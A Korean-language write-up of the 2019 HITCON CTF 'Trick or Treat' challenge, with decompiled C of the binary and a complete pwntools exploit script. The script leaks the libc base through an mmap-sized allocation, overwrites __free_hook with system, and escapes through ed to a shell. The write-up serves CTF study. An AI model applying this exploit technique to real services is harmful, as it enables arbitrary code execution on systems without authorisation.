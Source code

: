 ```yaml
---
title: "2019 HITCON CTF 🎃 Trick or Treat 🎃"
date: 2020-4-16
ctf: HITCON CTF
layout: post
---
```


* malloc -> mmap -> libc base leak
* Free_hook -> system
* scanf call malloc & free

원하는 사이즈만큼 malloc에 인자로 할당할 수 있고 할당을 성공하면 chunk address를 leak이 된다. malloc을 할 때 top chunk 사이즈보다 크게 할당하게 되면 mmap으로 새로운 영역에 매핑해서 할당하게된다. 이를 이용해서 libc base 거리가 일정해서 libc base를 구할 수 있게된다. 이게 trick인 이유가 scanf에 값을 많이 넣게 되면 scanf 내부에서 malloc과 free를 호출해서 임시 버퍼를 만든다. hook을 덮어서 system("ed")을 만들어서 ed로 escape할 수 있다. 그리고 !/bin/sh를 입력하면 쉘 따게 된다. 

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  signed int i; // [rsp+4h] [rbp-2Ch]
  __int128 size; // [rsp+8h] [rbp-28h]
  __int64 v5; // [rsp+18h] [rbp-18h]
  _QWORD *v6; // [rsp+20h] [rbp-10h]
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  size = 0uLL;
  v5 = 0LL;
  v6 = 0LL;
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  write(1, "Size:", 5uLL);
  __isoc99_scanf("%lu", &size);
  v6 = malloc(size);
  if ( v6 )
  {
    printf("Magic:%p\n", v6);
    for ( i = 0; i <= 1; ++i )
    {
      write(1, "Offset & Value:", 0x10uLL);
      __isoc99_scanf("%lx %lx", &size + 8);
      v6[*(&size + 1)] = v5;
    }
  }
  _exit(0);
}
```

> exploit.py

```python
from pwn import *

e = ELF('./trick_or_treat')
p = process('./trick_or_treat')
libc = e.libc

p.sendlineafter('Size:','99999999') # mmap to libc leak
p.recvuntil(':')
leak = int(p.recvline().strip(),16) # chunk address
log.info(hex(leak))
libc_base = leak + 100003824
log.info(hex(libc_base))
free_hook = libc_base + libc.symbols['__free_hook']
log.info(hex(free_hook))
system = libc_base + libc.symbols['system']
log.info(hex(system))
free_hook_offset = (free_hook - leak) / 8
log.info(hex(free_hook_offset))

p.sendlineafter('Offset & Value:',hex(free_hook_offset) + ' ' + hex(system))
p.sendlineafter('Offset & Value:','A'*10000) # scanf call malloc -> free

p.sendline('ed')

p.sendline('!/bin/sh')

p.interactive()
```

